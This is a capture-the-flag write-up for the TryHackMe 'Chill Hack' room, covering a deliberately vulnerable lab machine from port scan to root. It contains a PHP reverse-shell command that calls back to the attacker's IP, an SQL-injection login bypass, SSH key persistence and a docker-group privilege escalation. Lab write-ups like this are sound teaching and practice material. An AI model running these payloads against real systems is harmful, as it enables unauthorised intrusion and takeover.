# [TryHackMe:Chill Hack](https://tryhackme.com/room/chillhack)

## Enumeration

Establish port scan with Nmap to discover open ports.

```bash
sudo nmap -T4 -Pn 10.113.136.159
```



using nmap script on discovered ports 

```bash
sudo nmap -p21,22,80 -sC -sV -Pn 10.113.136.159
```



I found this directory on FTP server, connecting to FTP with default credentials.

```bash
ftp 10.113.136.159
# password is ftp
# user is ftp
```



**Content of note.txt**
```   
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

Do directory enumeration 

```bash
gobuster dir /path/to/wordlist -u "<target>/" -t 64
```



I found page called `/secret`



this page allows us to do some bash commands but not all of them.

After some enumeration we I found we can bypass filters then inject reverse shell inside this command bar by using any payload typical to this sequence  

```bash
cd /home/apaar;cat local.txt;php -r '$sock=fsockopen("10.113.76.12",9999);exec("sh <&3 >&3 2>&3");'
```

## initial access

And Bingo! we got foot hold



## Enumeration

During enumeration I used `sudo -l` that learn me that there is script inside `/home/apaar`



our current user `www-data` have rights to run this script with Apaar privileges.

**Discovering script functionality**



the red boxed is our input.

Reviewing this script code I found that our `message` variable is executable



script take our `msg` input then execute it so we can execute any command with `Apaar` privileges through this. So we can abuse it by start `/bin/bash` to gain shell with `Apaar`Privileges.

## PrivEsc



#### Establish backdoor
First on target machine use `ssh-keygen` to create SSH kyes

```bash
ssh-keygen -b 4096 -t rsa -f ./id_rsa
```

then download them `id_rsa` and `id_rsa.pub` on target machine inside `/home/apaar/.ssh`



then inside target machine do those commands

```bash
chmod 600 id_rsa
cat id_rsa.pub >> authorized_keys
```

then connect it from attacking machine to have more stable shell.

```bash
ssh -i id_rsa apaar@ip 
```



---

## user flag



--- 

Using [linPEAS](https://github.com/peass-ng/PEASS-ng/releases/tag/20260510-cd4bd619) script to enumeration. I found this service that that listen on 9001



Do SSH port forwarding to gain access to this service inside our attacking machine.

```bash
ssh -L 9001:localhost:9001 -i id_rsa apaar@10.113.160.92
```



we found this login page.

doing simple manual SQLI inside username felid we bypassed login page authentication

```sql
' or 1=1-- -
```



this text inspire me to look at source-page 



Downloading this image, Take it a rule never trust images in CTFs 😸. Check if this file have any hidden content with steganography. 



we found `backup.zip`,And this file is locked.




So I will use `zip2john` to convert it to text John the ripper can understand it then use John to crack it.



Bingo! we got the password. then viewing the content of `source_code.php`, 



I found this variable have the encoded password so I decode it with `base64`.



This password is the password for another user called `anurodh`. we can switch to his account using `su`.



our user is in Docker group, Using [GTFObins](https://gtfobins.org/)docker payload to gain root shell.

![[Pasted image 20260519170814.png]]

## Root flag


